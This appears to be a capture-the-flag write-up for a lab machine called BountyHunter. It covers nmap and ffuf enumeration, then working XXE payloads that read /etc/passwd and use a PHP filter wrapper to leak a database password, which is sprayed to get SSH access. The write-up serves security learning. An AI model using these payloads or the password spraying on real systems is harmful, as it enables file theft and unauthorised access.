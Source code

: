 # BountyHunter

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
nmap -v -sS -sV -sC -T4 -p- -oA bountyhunter-full-tcp 10.129.95.166

# Results
Nmap scan report for 10.129.95.166
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 23 11:53:23 2024 -- 1 IP address (1 host up) scanned in 27.94 seconds
```

# HTTTP (Port 80)

Port 80 hosts a Bug Bounty submission page, browsing around there are a few stand out pages, such as a contact form which could be used for injection, however more interestingly a portal used for submitting bugs to the system. 

![image](https://github.com/user-attachments/assets/b08ce87c-dddc-4237-b0e3-6b0d70e71c5c)

A message is displayed on submission stating the DB isn't setup, however, the results are returned to the page. Not taking the comment at face value, I try some basic injection attacks including SQL but nothing works.

Some other paths were discovered using ffuf:

  Command line : `ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://bountyhunter/assets/FUZZ -t 2 -v -o ffuf-forced-browsing-directories -of md`

These were /assets and /resources. Whilst nothing of interest was found using assets, resources displayed a directory listing. I was unable to find anything sensitive but some of the files did help give an understanding of how the application was working, epecially the bounty submission form. 

When submitting the form the value is encoded using Base64 and URL encoding. 

```bash
# Enoded payload
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5hYTwvdGl0bGU%2BCgkJPGN3ZT5iYjwvY3dlPgoJCTxjdnNzPmNjPC9jdnNzPgoJCTxyZXdhcmQ%2BZGQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D

# Decoded Payload
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

This is interesting because it is submitting XML to the server, I decided to try adding a basic XXE payload to the saubmision and re-encoding. The updated XML became:

```bash
# Updated XML
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE data [
		<!ENTITY names SYSTEM "/etc/passwd">
		]>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

After encoding and resubmitting, I was able to view the /etc/passwd file, see screenshot below:

![image](https://github.com/user-attachments/assets/032c3181-48ad-4604-9452-8de41cb168c5)

I could now start looking for more interesting data on the system. 

We can now start targetting sensitive files on the target, one we could go after in php is the db.php file, we will need to base64 encode this in a PHP wrapper to avoid bad characters, see on Payload all the Things [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe).

The payload to get this ends up as:

```bash
# Payload to retrieve PHP file
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
  <cwe>test</cwe>
  <cvss>test</cvss>
  <reward>&file;</reward>
</bugreport>
```

Decoding the response we can see the dbpassword:

```bash
# dbpassword
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Spraying this password against usersnames discovered earlier in the /etc/passwd file we are able to log into the development account on the box using the password from db.php. The screenshot below shows this as well as the user flag from */home/development/flag.txt*.

![image](https://github.com/user-attachments/assets/b6e83fc7-8d1f-44cf-942c-3f0b4fd6dfd6)

Privilege Escelation to follow. 
